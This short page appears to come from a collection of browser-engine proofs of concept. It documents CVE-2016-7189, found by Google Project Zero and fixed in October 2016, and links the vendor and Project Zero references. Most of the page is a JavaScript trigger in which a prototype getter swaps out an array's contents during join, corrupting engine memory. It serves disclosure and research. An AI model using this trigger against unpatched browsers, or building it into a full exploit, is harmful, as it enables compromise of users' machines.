 # CVE-2016-7189

- Report: Aug 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var t = new Array(1,2,3);
t.length = 100;
var o = {};
  Object.defineProperty(o, '3', {
    get: function() {

      t[0] = {};
      for(var i = 0; i < 100; i++){
          t[i] = {a : i};
      }
      return 7;
    }
  });

t.__proto__ = o;

var j = [];
var s = j.join.call(t);
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-119)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=919)

